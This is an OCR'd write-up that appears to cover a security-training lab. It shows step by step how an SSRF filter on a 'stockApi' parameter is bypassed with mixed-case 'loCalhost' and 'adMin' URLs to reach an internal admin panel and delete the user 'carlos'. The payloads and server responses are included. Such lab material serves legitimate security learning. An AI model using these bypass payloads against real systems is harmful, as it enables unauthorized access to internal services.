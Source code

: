 ```bash

Note the response:

HTTP/1.1 400 Bad Request

"External stock check blocked for security reasons"

This validates there is something behind this end-point

After trying:

http://localhost/
http://127.0.0.1/
http://127.1./
And many more

Try:

stockApi=http://loCalhost

Response:

HTTP/1.1 200 OK

Try:

stockApi=http://loCalhost/admin

Response:

HTTP/1.1 400 Bad Request

"External stock check blocked for security reasons"

Try:

stockApi=http://loCalhost/adMin

Response:

HTTP/1.1 200 OK

Right-click on the response and go to: "show response in browser"
Delete the username "carlos"
Upon failure go to: HTTP history
Find:

GET /admin/delete?username=carlos HTTP/1.1

Copy:

/delete?username=carlos

Change:

stockApi=http://loCalhost/adMin

To

stockApi=http://loCalhost/adMin/delete?username=carlos

Note the response:

```